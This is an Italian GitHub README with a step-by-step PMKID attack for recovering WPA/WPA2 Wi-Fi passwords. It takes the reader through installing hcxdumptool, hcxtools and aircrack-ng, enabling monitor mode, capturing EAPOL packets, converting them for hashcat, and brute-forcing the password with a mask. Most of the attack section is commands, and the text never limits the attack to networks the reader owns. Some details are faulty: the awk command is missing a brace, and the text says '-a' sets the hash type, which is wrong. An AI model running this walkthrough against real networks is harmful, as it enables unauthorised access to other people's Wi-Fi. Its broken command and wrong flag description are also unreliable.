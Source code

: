 # PMKID ATTACK

Questo repository è di supporto all'articolo riguardo il PMKID ATTACK disponibile [qui](https://medium.com/@mariocuomo/pmkid-attack-parte-1-9ae5433ea85e).<br>
L'articolo tra ispirazione dal [post](https://hashcat.net/forum/thread-7717.html) pubblicato il 4 agosto 2018 sul forum di **hashcat** riguardo una vulnerabilità nel protocollo Wi-Fi Protected Access (WPA e WPA2).


#### SCENARIO
Un Client che non è in possesso della password di un Access Point cerca di riceve un messaggio contenente un **PMKID** - una stringa cifrata il cui unico parametro ignoto è il **PMK**.<br>
Il **PMK** è generato a partire dalla password in chiaro e altre varibili note al Client.<br>
Conoscendo il processo generativo del PMK dalla password e quello del PMKID a partre dal PMK, il Client cerca di costruire un **PMKID*** a partire da password note.


#### TOOL NECESSARI
- [hcxdumptool](https://github.com/ZerBea/hcxdumptool), uno strumento che come suggerisce la descrizione del repository github è in grado di 'acquisire pacchetti da dispositivi wlan e scoprire potenziali punti deboli all'interno delle proprie reti WiFi'.<br>
È necessario quindi possedere una scheda wireless che supporti la _monitor mode_.
- [hcxtools](https://github.com/ZerBea/hcxtools), uno strumento che come suggerisce la descrizione del repository github permette di 'converti i pacchetti dalle acquisizioni per rilevare i punti deboli all'interno delle proprie reti WiFi analizzando gli hash'
- [hashcat](https://hashcat.net/hashcat/), uno strumento che implementa diversi algoritmi di cifratura e utilizzato per il recupero password


#### PASSO 1 - INSTALLARE I VARI TOOL
È necessario clonare i repositori hcxdumptool e hcxtools.
```Bash
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool
make && make install

git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

#### PASSO 2 - IMPOSTARE LA PROPRIA SCHEDA IN MODALITÀ MONITOR
Uno strumento per impostare la propria interfaccia wireless in modalità monitor è [Airmon-ng](https://aircrack-ng.org/doku.php?id=it:install_aircrack)
```Bash
wget http://download.aircrack-ng.org/aircrack-ng-1.0.tar.gz
tar -zxvf aircrack-ng-1.0.tar.gz
cd aircrack-ng-1.0
make
make install
```

Se x è il nome della propria interfaccia - scopribile tramite il comando ```ifconfig``` - lanciare il comando 
```Bash
airmon-ng start x
```
Da questo momento il nome della interfaccia wireless avrà la forma x**mon**.<br>
Per avere una conferma rilanciare il comando ```ifconfig```.



#### PASSO 3 - CATTURARE PACCHETTI DI INTERESSE
A questo punto è necessario catturare i pacchetti di interesse.<br>
Il comando minimale è il seguente, dove il parametro **-o** indica il file di output sul quale si scriverà e il parametro **-i** indica la sorgente dalla quale si cattureranno i pacchetti.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon 
```

Un parametro di interesse da aggiungere è **enable_status**.<br>
Questo parametro permette di specificare a quali pacchetti siamo interessati:<br>

**1**: EAPOL<br>
**2**: PROBEREQUEST/PROBERESPONSE<br>
**4**: AUTHENTICATON<br>
**8**: ASSOCIATION<br>

Siamo interessati ai pacchetti EAPOL.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon --enable_status=1
```



#### PASSO 4 - CONVERTIRE IL FILE OUTPUT DI HCXDUMPTOOL
Il file .pcapng deve ora essere convertito in un formato comprensibile ad hashcat.<br>
In accordo a quanto previsto per la versione 6.2.5 di hashcat costruiamo un file con estensione .hc22000.

```Bash
 hcxpcapngtool -o hash.hc22000 -E wordlist pacchetti.pcapng
 ```
 
 
 #### PASSO 5 - LANCIARE IL MECCANISMO DI BRUTEFORCE
Se si osserva il file appena creato esso segue la seguente forma:

**PROTOCOL** * **TYPE** * **PMKID/MIC** * **MACAP** * **MACCLIENT** * **ESSID** * **ANONCE** * **EAPOL** * **MESSAGEPAIR**

L'ESSID è espresso in esadecimale.<br>
Al solo titolo di esempio, si lanci il seguente script per decodificarli:

```Bash
awk -F "*" ' system("echo " $6 " | xxd -r -p; echo" ) }' hash.hc22000
```
 
Si hanno tutte le informazioni necessarie per iniziare la computazione del PMKID.<br>
Come si è visto nell'articolo è necessario iniziare da una password, generare il PMK e successivamente il PMKID*.<br>
Ma da quali password iniziare?<br>
Si può utilizzare una lista di password candidate o si può esprimere una **mask**.<br>
Una mask descrive la struttura della passoword: si immagini di avere una password composta da 8 cifre decimali.<br>
Il comando è il seguente

```Bash
hashcat -m 22000 hash.hc22000 -a 3 -w 4 ?d?d?d?d?d?d?d?d
```

Il parametro -a indica l'hash type e il parametro -w indica il profilo di workload.



et voilà, tocca solamente attendere!









